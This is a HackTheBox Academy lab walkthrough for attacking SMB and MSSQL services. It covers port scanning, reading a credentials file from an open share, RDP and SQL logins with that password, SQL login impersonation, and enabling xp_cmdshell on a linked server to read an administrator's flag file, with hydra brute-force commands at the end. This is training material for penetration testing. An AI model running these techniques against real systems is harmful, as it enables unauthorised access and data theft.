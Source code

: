 # Attacking Common Services - HARD

>HackTheBox Academy Module Assessment LAB walkthrough  
[Attacking SMB](https://academy.hackthebox.com/module/116/section/1167)  
[Attacking SQL Databases](https://academy.hackthebox.com/module/116/section/1169)  

## port Scan NMAP discovery

```
sudo nmap -p- 10.129.1.2
sudo nmap -p 135,445,1433,3389 -sCV -A -O 10.129.1.2
```

>open ports and services:

```
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

## SMB File Shares

>SMB allows the simon user with blank password to read content on file server shares.  

```
smbmap -u 'simon' -H inlanefreight.htb

smbmap -u 'simon' -H inlanefreight.htb -r Home
```  

>SMB client connect with blank password.  

```
smbclient -U 'simon' \\\\10.129.1.2\\Home

recurse
ls

cd \IT\Simon\>

get random.txt
cd \IT\Fiona\> 
get creds.txt
```

>Content of the file `creds.txt`, is the password for fiona, `48Ns72!bns74@S84NNNSl`.   

## Use discovered user FIONA  

>Remote desktop to windows user as FIONA.  

```
xfreerdp /v:10.129.1.2 /u:fiona /p:'48Ns72!bns74@S84NNNSl' /dynamic-resolution /cert:ignore
```

>Remote connect to Microsoft SQL service as Fiona user.  

```
sqsh -S 10.129.1.2 -U '.\\fiona' -P '48Ns72!bns74@S84NNNSl' -h
```  

>In remote desktop windows session open `cmd` for command prompt.
>run `sqlcmd` as Fiona.  

>Enumerate Database and tables on MSSQL  

```
SELECT name FROM master.dbo.sysdatabases
go

use TestingDB
go

SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES
go
```  

## Identify Users that current SQL User can Impersonate  

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```


## Impersonate User SQL user account: John  

>As the returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the sa user.
>Let us impersonate the user and execute the same commands.
>To impersonate a user, we can use the Transact-SQL statement EXECUTE AS LOGIN and set it to the user we want to impersonate.

```
EXECUTE AS LOGIN = 'john'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go

```

## Identify linked Servers in MSSQL

>Identify linked Servers in MSSQL.  

```
SELECT srvname, isremote FROM sysservers
go
```

>WINSRV02\SQLEXPRESS
>LOCAL.TEST.LINKED.SRV  


## Execute Commands on Remote LINK SQL Servers  

>The `EXECUTE` statement can be used to send pass-through commands to linked servers. 
>We add our command between parenthesis and specify the linked server between square brackets `([ ])`.  

```
1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
```

>Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

```
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> go
```

## Exfiltrate Secret Data - Reading the flag  

>Submit the contents of the flag.txt file on the Administrator Desktop.  

```
EXECUTE("EXEC sp_configure 'show advanced options', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("RECONFIGURE") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("EXEC sp_configure 'xp_cmdshell', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE('xp_cmdshell "type C:\Users\Administrator\Desktop\flag.txt >c:\users\fiona\desktop\x.txt"') AT [LOCAL.TEST.LINKED.SRV]
go
```  

>read content as current user `Fiona`.  

```
type c:\users\fiona\desktop\x.txt
```  

[Attacking Common Services - Hard](https://academy.hackthebox.com/module/116/section/1468)  

## Extra Commands

>These commands did not succeed in providing any foothold, information or lateral movement.  

```
sudo responder -I tun0
```

```
crackmapexec mssql 10.129.79.226 -u 'john' -p secrets.txt --local-auth
``` 

```
hydra -l john -P /usr/share/wordlists/rockyou.txt 10.129.27.28 mssql 
```  

```
sqsh -S 10.129.27.28 -U john -P '48Ns72!bns74@S84NNNSl' -h
```  


